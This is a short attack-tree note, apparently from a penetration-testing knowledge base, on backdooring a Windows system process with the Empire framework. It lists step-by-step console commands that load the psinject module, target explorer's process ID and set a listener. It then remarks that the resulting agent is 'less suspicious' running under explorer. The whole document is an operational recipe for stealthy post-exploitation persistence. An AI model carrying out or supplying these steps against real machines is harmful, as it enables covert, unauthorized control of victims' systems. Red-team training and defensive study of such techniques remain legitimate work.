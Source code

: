 # Backdoor a Windows system process with empire

## Attack tree

```text
1 Empire agent running on Windows (AND)
2 Interact with agent
    2.1 > usemodule (double tab to list modules available) (AND)
    2.2 > ps (to list all processes running on target and get process id of explorer) (AND)
    2.3 > usemodule management/psinject (AND)
    2.4 > info (to see all options) (AND)
    2.5 > set ProcId [explorer process id] (AND)
    2.6 > set Listener [value] (http in our case) (AND)
    2.7 > execute (AND)
```

## Notes

* A new agent appears, one that is less suspicious, running under explorer.
* This is an example of using an empire post exploitation module. The others go similarly. This example uses windows but the same process works for other OS as well. The modules will be different tnough.